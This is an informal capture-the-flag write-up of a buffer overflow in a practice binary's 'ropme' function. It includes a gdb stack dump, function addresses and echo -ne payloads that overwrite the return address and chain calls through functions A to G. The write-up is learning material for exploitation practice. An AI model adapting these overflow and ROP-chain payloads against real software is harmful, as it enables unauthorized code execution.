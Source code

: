 - The second input I give is using gets - very vulnrable.
- Looking at the ret of the function ropme, the stack looks like this:
```c
(gdb) x/20x $esp
0xffffdbcc:	0x080a0001	0x00000001	0xffffdc94	0xffffdc9c
0xffffdbdc:	0x080a3008	0xf7f9f3dc	0xffffdc00	0x00000000
0xffffdbec:	0xf7e04647	0xf7f9f000	0xf7f9f000	0x00000000
0xffffdbfc:	0xf7e04647	0x00000001	0xffffdc94	0xffffdc9c
0xffffdc0c:	0x00000000	0x00000000	0x00000000	0xf7f9f000
```
- `0x080a0001` is the address back to main - I need to overwrite that
- Cool. I BOFed my way to a seg fault :)
`1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111112222`
- The payload above is making the ret in the end of ropme "2222" (0x32323232)
	+ Now, I need to understand where I want to jump
- As a start, let's try to jump into funtion A 
	+ There are functions A, B, C, D, E, F and G
	+ All the ifs in ropme are false, so I am not entering any of them - let's see what happends if I do
- A's address is `0x809fe4b` - let's jump there
- `echo -ne "69\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\x4b\xfe\x09\x08" > shellcode.bin`
- The payload above is giving 69 as the first input (menu) and then using BOF to overwrite the return address in the end of ropme to the A function.
- It worked! I get the following message:
- `You found "Tom Riddle's Diary" (EXP +545228611)`
	+ Seems like the EXP is changing each run
		* The reason for this seems to be the fact that this number is generated using `ds:0x80a2088` which is undefined proabably, so a diffrent value is there everytime we run our code
- The idea here is jumping from function to funtion - let's do it!
- The ESP when A is making the ret is at `0xffffdbe0`, I need to make sure the value there is function B.
- `echo -ne "69\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\x4b\xfe\x09\x08\x6a\xfe\x09\x08" > shellcode.bin`
- BOOM! Jumped into B ;)

- Let's build a ROP chain for all of the function
- I take all of the address of B, C, D, E, F, G
`B: \x08\x09\xfe\x6a 
 C: \x08\x09\xfe\x89
 D: \x08\x09\xfe\xa8
 E: \x08\x09\xfe\xc7
 F: \x08\x09\xfe\xe6
 G: \x08\x09\xff\x05`
- Concat them together and let's cyber ;)

- `echo -ne "69\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\x4b\xfe\x09\x08\x6a\xfe\x09\x08\x89\xfe\x09\x08\xa8\xfe\x09\x08\xc7\xfe\x09\x08\xe6\xfe\x09\x08\x05\xff\x09\x08\x01\x01\x0a\x08" > shellcode.bin`

- COOL! but I still get segfault, let's add the real return address for main `0x080a0001`
